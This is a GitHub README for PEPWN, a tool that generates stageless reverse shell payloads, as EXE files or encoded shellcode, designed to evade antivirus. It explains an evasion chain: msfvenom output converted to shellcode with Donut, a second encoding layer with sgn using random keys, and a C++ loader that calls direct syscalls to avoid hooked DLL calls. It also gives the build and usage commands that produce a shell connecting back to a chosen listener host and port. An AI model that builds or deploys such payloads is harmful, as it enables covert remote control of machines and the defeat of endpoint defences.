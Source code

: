 # PEPWN
PEPWN is a multi-chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] It generates an exe payload using msfvenom with the given IP and PORT and saves it in the /tmp directory.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. DONUT is just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] Apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] Transfers it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes the shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```
This command will create an EXE stageless reverse shell payload that connects back to 127.0.0.1 in port 4444. 

## Documentation

>Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 **-f** : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 **-t** : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 **-h** : host/ip/domain of the listener
 
 **-p** : port of the listener
 
 **-H** : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## How to use

https://youtu.be/SYriAv_FPAg




